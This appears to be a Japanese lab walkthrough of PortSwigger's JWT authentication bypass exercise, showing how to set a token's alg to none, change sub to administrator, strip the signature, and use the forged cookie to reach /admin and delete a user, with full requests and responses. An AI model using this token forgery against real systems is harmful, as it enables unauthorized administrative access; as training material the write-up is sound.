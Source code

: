 # 欠陥のある署名検証による JWT 認証バイパス

次のラボを実施します  
https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification  
このラボでは、セッションの処理に JWT ベースのメカニズムを使用します。サーバーは、署名されていない JWT を受け入れるように安全に構成されていません。

- 1. BurpSuite を起動して、proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. GET /my-account?id=wiener リクエストを send to repeater します
- 5. リクエストを GET /admin HTTP/2 に書き換えて送信します。
     権限不足のレスポンスが返ってきます。

```
HTTP/2 401 Unauthorized
```

- 6. リクエストの JWT の sub を administrator にします。alg を none に設定します(署名アルゴリズム)。JWT をコピーしてリクエストを差し替えます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/075a8a70-80eb-4300-840a-ba7f1eb5796f)

- 7. JWT の 2 番目の.以降は署名なので削除して、送信します

```
GET /admin HTTP/2
Host: 0a4e0088030b8b5480fe7b77000600e4.web-security-academy.net
Cookie: session=eyJraWQiOiIwMzA1MjY1MS0wODEwLTRlYWMtOWFhZi1hMTQxZDExMGI4ZTYiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTIzNTI0MTJ9.
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Referer: https://0a4e0088030b8b5480fe7b77000600e4.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

権限ありで管理者ページにアクセス出来ました

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3165
・・・
<a href="/admin/delete?username=carlos">Delete</a>
```

- 8. エンドポイントを/admin/delete?username=carlos に変更してリクエストを送ると一般ユーザーが削除されます

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
